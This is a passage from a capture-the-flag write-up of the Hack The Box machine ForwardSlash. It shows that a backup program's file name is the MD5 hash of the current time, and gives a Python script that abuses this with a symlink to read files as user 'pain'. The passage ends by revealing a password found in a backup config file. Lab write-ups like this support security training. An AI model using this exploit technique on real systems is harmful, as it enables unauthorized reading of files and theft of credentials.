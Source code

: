 The program takes the time and computes an MD5 hash based from it, then tries to access a file with the MD5 name.

To confirm this, I'll take the time from the previous output `(12:17:34 / 6de241f3320ade5ac8bb6e1d245a1457)` and compute the MD5 hash.

```
chiv@forwardslash:~$ echo -ne '12:17:34' | md5sum
6de241f3320ade5ac8bb6e1d245a1457  -
```

Good, the hash matches so we know that random file name is just a hash of the current time. So to exploit this program, I just need to generate a symlink to the file I want to read using the MD5 hash of the current time. Since the program runs as pain, I'll be able to read any files owned by this user.

```python
#!/usr/bin/python
import hashlib
import os
import sys
from time import gmtime, strftime

a = str(strftime("%H:%M:%S"))
print a
m = hashlib.md5()
m.update(a)
print os.symlink(sys.argv[1], m.hexdigest())
print os.system('/usr/bin/backup')
```

I can now read any file with user `pain` privileges:

![](/assets/images/htb-writeup-forwardslash/user.png)

After looking around, I found the `/var/backups/config.php.bak` file containing pain's password: `db1f73a72678e857d91e71d2963a1afa9efbabb32164cc1d94dbc704`
